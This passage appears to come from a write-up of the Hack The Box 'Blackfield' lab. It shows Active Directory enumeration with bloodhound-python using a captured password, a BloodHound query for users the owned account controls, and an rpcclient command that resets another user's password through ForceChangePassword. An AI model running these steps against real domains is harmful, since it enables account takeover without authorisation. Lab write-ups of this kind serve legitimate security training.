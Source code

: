 If `bloodhound` is not already installed, it can be using:

```
sudo apt-get install bloodhound
pip3 install bloodhound
```

**NOTE:** `bloodhound` and `bloodhound-python` are different packages. Install them both.

Using extracted credentials, execute the `bloodhound-python` data collector using the following command

`bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly`

This will create multiple files:

```
20221124194526_computers.json
20221124194526_domains.json
20221124194526_groups.json
20221124194526_users.json
```

If this is the first launch of `bloodhound`, there are some prerequisites. Run the following commands, and then login to the database Web UI at `https://localhost:7474` using the credentials `neo4j / neo4j`

```
mkdir -p /usr/share/neo4j/logs
touch /usr/share/neo4j/logs/neo4j.log
sudo neo4j start
bloodhound
```

If this is not the first launch, just run `sudo neo4j start` and then `bloodhound`.

Drag and drop the files created by `bloodhound-python` into bloodhound to import the data. Begin analysis by searching for `support` (the account we have compromised, in this case) and right click it to mark as owned.

Click 'Raw Query' at the bottom of bloodhound and run the following query to search for objects in the 1st degree (i.e. 1 hop away) that our owned user can control.

`MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p`

This command, as an example, might show that the owned user has the `ForceChangePassword` permission on the victim user. This privilege can then be abused using `rpcclient`

`rpcclient -U domainName/owned 10.10.10.192`
`setuserinfo victim 23 newPassword!`